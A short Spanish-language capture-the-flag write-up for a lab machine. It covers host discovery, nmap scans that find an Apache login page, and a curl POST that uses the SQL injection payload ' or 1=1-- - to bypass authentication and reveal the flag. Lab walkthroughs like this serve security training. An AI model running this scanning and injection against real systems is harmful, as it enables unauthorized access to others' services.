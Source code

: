 🗹 Verificar si el host está activo:

```shell
ping -c 1 10.129.139.189

PING 10.129.139.189 (10.129.139.189) 56(84) bytes of data.
64 bytes from 10.129.139.189: icmp_seq=1 ttl=63 time=1796 ms

--- 10.129.139.189 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1796.385/1796.385/1796.385/0.000 ms
```

> Sistema operativo:  **Linux**

🗹 Identificar puertos abiertos y qué servicios están corriendo:

```shell
sudo nmap -p- -sS --open --min-rate 5000 -n -Pn -vv 10.129.139.189 -oG openPorts

PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

🗹 Ejecutar scripts para recopilar información adicional:

```shell
sudo nmap -p 80 -sCV 10.129.139.189 -oN targeted

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Login
```

🗹 Realizar una petición POST con `curl` modificando el campo `username`:

```shell
curl -s -X POST http://10.129.139.189 -d "username=' or 1=1-- -&password=password"
```
## Flag

La flag se visualiza en la respuesta a la petición POST.